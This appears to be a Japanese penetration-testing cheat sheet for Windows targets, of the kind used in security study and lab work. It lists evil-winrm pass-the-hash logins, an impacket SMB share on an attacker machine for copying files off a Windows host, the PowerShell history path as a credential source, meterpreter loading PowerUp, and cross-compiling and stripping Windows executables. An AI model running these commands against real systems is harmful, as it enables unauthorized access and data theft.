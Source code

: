 # Tips

## リモート接続

### RDP

```shell
xfreerdp /u:<user> /p:<password> /v:<ip> /w:1280 /h:800 /cert:ignore　+clipboard

xfreerdp /u:<user> /p:<password> /v:<ip> /size:90% /cert:ignore +clipboard

xfreerdp /u:<user> /p:<password> /d:<domain> /v:<ip> /size:90% +clipboard

# remmina (GUI)
sudo apt install remmina
```

### WinRM

```shell
evil-winrm -i <ip> -u <user> -p <password>

# Pass-the-Hash
evil-winrm -i <ip> -u <user> -H <hashvalue>

evil-winrm -i <domain>\\<ip> -u <user> -H <hashvalue>
```

### SSH

```shell
ssh <domain>\\<user>@<ip>
```

## ファイル共有

Linux の共有フォルダに、Windows からアクセスする

```shell
python3 -m pipx install impacket
```

```shell
# kali側で共有設定。user,passwordはWindows側の認証情報。
$ mkdir share
$ python /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support -username <user> -password <password> public share

# Windows側からコピー
copy <file> \\<ip>\public\
```

## Powershell

### Powershell の履歴

```powershell
%APPDATA%\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

### Powershell プロセスのログ

```text
Application and Services Logs -> Microsoft -> Windows -> PowerShell -> OperationalApplication and Service Logs -> Windows PowerShell
```

### meterpreter から Powershell の起動

（例）
https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1

```shell
meterpreter > load powershell
meterpreter > posershell_shell
PS > . .\PowerUp.ps1
PS > Invoke-AllChecks
```

## コンパイル

```shell
apt install mingw-w64

# c
i686-w64-mingw32-gcc calc.c -o calc-MSF.exe

# cpp
i686-w64-mingw32-g++ calc.cpp -o calc-MSF.exe

# シンボル削除
strip --strip-all aaa.exe
x86_64-w64-mingw32-strip --strip-all aaa.exe
```

